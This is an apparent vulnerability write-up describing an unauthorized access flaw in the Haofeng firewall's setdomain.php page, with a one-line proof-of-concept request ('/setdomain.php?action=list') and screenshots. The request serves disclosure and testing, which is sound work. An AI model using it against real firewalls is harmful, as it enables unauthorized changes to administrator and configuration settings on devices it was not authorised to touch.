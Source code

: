 # Haofeng firewall setdomain.php Overriding Access Vulnerability

## Vulnerability Description

There is an unauthorized access vulnerability in the Haofeng firewall setdomain.php page. The attacker can modify the administrator and other configuration information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Haofeng Firewall</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628674369654-1d15b168-135b-408c-8ded-1006c68641c3.png)

Verify POC

```php
/setdomain.php?action=list
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628674436226-bfc169f9-a2c1-4e15-9704-0ade0de81ab2.png)



If you gain something, just like it